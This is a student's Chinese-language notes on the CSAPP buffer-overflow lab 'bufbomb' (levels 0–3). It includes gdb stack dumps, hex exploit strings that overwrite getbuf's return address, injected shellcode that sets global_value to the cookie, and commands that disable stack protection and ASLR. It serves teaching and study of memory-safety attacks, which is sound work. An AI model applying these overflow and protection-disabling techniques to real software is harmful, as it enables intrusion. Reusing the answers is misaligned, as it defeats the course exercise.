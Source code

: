 ```yaml
---

类型: 笔记
创建日期: 2024-05-23
修改日期: 2024-05-23
---
```

## level 0 Candle
`(gdb) p/x &smoke`
`$1 = 0x8048e20`

单步调试机器指令 `stepi` `si`
```
Breakpoint 2, 0x08048ff1 in getbuf ()

(gdb)  info registers esp
esp            0xffffb070          0xffffb070
(gdb)  info registers ebp
ebp            0xffffb088          0xffffb088

(gdb) x/16xw $esp
0xffffb070:     0xffffb07c      0xf7ef8550      0x00000000      0x65646f77
0xffffb080:     0x0000616d      0x0804b5c0      0xffffb0a8    **0x0804901e**

(gdb) x/1xw $ebp
0xffffb0a8 
```
0x0804901e就是test中调用get_buf的下一条指令地址，要将其改为我们要的smoke地址0x8048e20，小端存储低地址在前。
我一直在想的是要保存好旧的ebp的那块区域，不然ebp无法正确返回到上一个栈。
想错了，ebp，esp中存放的是地址值，而我会覆盖的是地址值里的内容。
栈的扩张和收缩都是由ebp，esp（寄存器）传递自己内部保存的地址值整的，~~期间是不会去访问地址值内的内容的~~。（是会访问的，leave时要将旧ebp值弹回ebp，所以ebp里的值会出问题。
> leave：使栈做好返回准备，等价于
	mov %ebp，%esp
	pop %ebp

但是ret指令会把返回地址弹回esp，如果把此栈帧空间全部覆盖了，程序跳转是没问题的。**而且去下一个函数中执行时上来先push ebp，其实不会有影响**

要想覆盖掉返回地址，只需要看创建现在这个栈帧时分配了多大的空间，直接把对应得返回地址给覆盖了。


通过，构造字符串如下
`31 31 31 31 31 31 31 31 c0 b5 04 08 a8 b0 ff ff 1e 90 04 08`

```

Breakpoint 2, 0x08048fe6 in getbuf ()
(gdb) x/16xw $ebp-0xc
0xffffb07c:     0x00000000      0x00000004      0x0804b5c0      0xffffb0a8
0xffffb08c:     0x0804901e      0x00000003      0x08049ac7      0xffffb0b4
0xffffb09c:     0x00000000      0xffffb0c0      0xdeadbeef      0xffffc888
0xffffb0ac:     0x08049105      0x08049ac7      0x000000f4      0x00001770
(gdb) c
Continuing.

Breakpoint 1, 0x08048ff1 in getbuf ()
(gdb) x/16xw $ebp-0xc
0xffffb07c:     0x04030201      0x08070605      0x12111009      0xffffb0a8
0xffffb08c:     0x08048e20      0x00000000      0x08049ac7      0xffffb0b4
0xffffb09c:     0x00000000      0xffffb0c0      0xdeadbeef      0xffffc888
0xffffb0ac:     0x08049105      0x08049ac7      0x000000f4      0x00001770
(gdb) 
```
问题：上一个函数的传参3为什么也没了
解答：经过测试发现是最后还添加一个0x00，刚好覆盖了
## level 1 Sparkler
`fizz`函数地址`08048dc0`
函数中`8048dc7:	8b 5d 08  mov 0x8(%ebp),%ebx  ; 入参int val`
要在ebp + 8 位置放好字符串，下图展示如何确定此位置
![[B6E3A24C5F56A69DF646F52EF8BC9CAA.png]]
`01 02 03 04 05 06 07 08 09 10 11 12 00 00 00 00 c0 8d 04 08 00 00 00 00 dd dd 68 57`
## Level 2 Firecracker
Bang地址`08048d60 <bang>:`
`mov    0x804a1dc,%eax                ; <global_value>`
`cmp    0x804a1cc,%eax                ; <cookie>`
首先要修改程序堆栈的可执行属性，然后关掉系统的栈地址随机化，否则每一次的缓冲区位置都不相同，无法通过缓冲区溢出跳转到此固定的缓冲区位置执行，即如下命令：
```shell
apt-get install execstack
execstack -s bufbomb
sudo sysctl -w kernel.randomize_va_space=0
```
打断点查看gets函数的传参地址
`(gdb) x $eax`
`0xffffb07c:     0x00000000`
构建栈上运行的代码：
```
movl $0x804a1cc, %eax
movl %eax, $0x804a1dc       ; 将cookie地址传给global_value
pushq $0x08048d60           ; 返回Bang运行
retq
```

转为汇编
```

bang.o：     elf32-i386


Disassembly of section .text:

00000000 <.text>:
   0:   a1 cc a1 04 08          mov    0x804a1cc,%eax
   5:   a3 dc a1 04 08          mov    %eax,0x804a1dc
   a:   68 60 8d 04 08          push   $0x8048d60
   f:   c3                      ret  

```


```
joseph@LAPTOP-E1IU5B7P:~/CSAPP/bufflab$ ./bufbomb -t SA23225138 < exploit-raw.txt 
Team: SA23225138
Cookie: 0x5768dddd
Type string:Bang!: You set global_value to 0x5768dddd
sh: 1: /usr/sbin/sendmail: not found
Error: Unable to send validation information to grading server
```

## level 3 dynamic
```
a1 cc a1 04 08 68 1e 90 04 08 c3 00 a8 b0 ff ff 7c b0 ff ff
```


## 要点
![[Pasted image 20240526214127.png]]
### level 0
只需要覆盖getbuf原本的返回值
`0x08048e20`
```
01 02 03 04 05 06 07 08 09 10 11 12 00 00 00 00 20 8e 04 08
```
### level 1
覆盖getbuf的返回值，对于入参val还要将其放在对应的地方ebp+8
```
01 02 03 04 05 06 07 08 09 10 11 12 00 00 00 00 c0 8d 04 08 00 00 00 00 b2 cb 1e 75
```
### level 2
要栈上执行指令，那么需要将返回值修改为指令序列头部，即buf首地址。
指令内容：将cookie的值放入global_value，并push函数地址，这样执行完指令后跳转
```
a1 cc a1 04 08 a3 dc a1 04 08 68 60 8d 04 08 c3 7c be ff ff
```
### level 3
```
a1 cc a1 04 08 68 1e 90 04 08 c3 00 a8 be ff ff 7c be ff ff
```
要栈上执行指令，那么需要将返回值修改为指令序列头部，即buf首地址。
指令内容：将cookie的值放入eax，并push下一条执行的地址，这样执行完指令后跳转
